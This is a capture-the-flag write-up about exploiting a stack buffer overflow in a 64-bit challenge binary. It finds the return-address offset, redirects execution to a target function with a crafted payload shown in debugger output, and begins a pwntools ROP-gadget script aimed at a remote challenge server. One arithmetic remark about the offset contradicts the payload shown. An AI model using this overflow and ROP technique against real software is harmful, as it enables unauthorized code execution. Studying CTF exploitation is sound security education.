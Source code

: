 My offset was 40, so it was 0x28, i was wrong !

I can now try with the following payload to confirm the offset:

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB` (32A and 8 B = 32)

We can see that we edited RSP successfully !
```
 RBP  0x4141414141414141 ('AAAAAAAA')
 RSP  0x7fffffffdce8 ◂— 'BBBBBBBB\n'
 RIP  0x401588 (main+142) ◂— ret 

 ► 0x401588 <main+142>    ret    <0x4242424242424242>
```


Fill ammo:
```
disass fill_ammo                                                                                                       
Dump of assembler code for function fill_ammo:            
   0x00000000004012f5 <+0>:     endbr64
```

So we want to write `4012f5` instead of our 'BBBBBBBB'.

I generated a payload using python and pwntools, and sent it to GDB using 
`r < input.txt` to avoid any miss-treatment of my input.

After putting a breakpoint to the beginning of fill_ammo...
I see that we reached it !

```
pwndbg> b *0x4012f5                                                                                                             
Breakpoint 1 at 0x4012f5
pwndbg> r < input2.txt 

[...]

*RSP  0x7fffffffdcf0 ◂— 0xdeadbeef
*RIP  0x4012f5 (fill_ammo) ◂— endbr64 

 DISASM / x86-64 / set emulate on 
 ► 0x4012f5 <fill_ammo>       endbr64 
   0x4012f9 <fill_ammo+4>     push   rbp
```

And in fact, i had to pass args inside registers, and not in stack, because it's 64 bits.

So i used ROP gadget chain, to set my registers before running the function !

```python
from pwn import *

LOCAL_FILE_PATH: str = "./rocket_blaster_xxx"
REMOTE_SERVER = "94.237.63.83"
REMOTE_PORT = 46473


def find_gadgets(binary_path):
    elf = ELF(binary_path)
    rop = ROP(elf)

    # Search for gadgets to set up RDI, RSI, and RDX registers
    pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
    pop_rsi = rop.find_gadget(['pop rsi', 'ret']).address
    pop_rdx = rop.find_gadget(['pop rdx', 'ret']).address

    return pop_rdi, pop_rsi, pop_rdx
```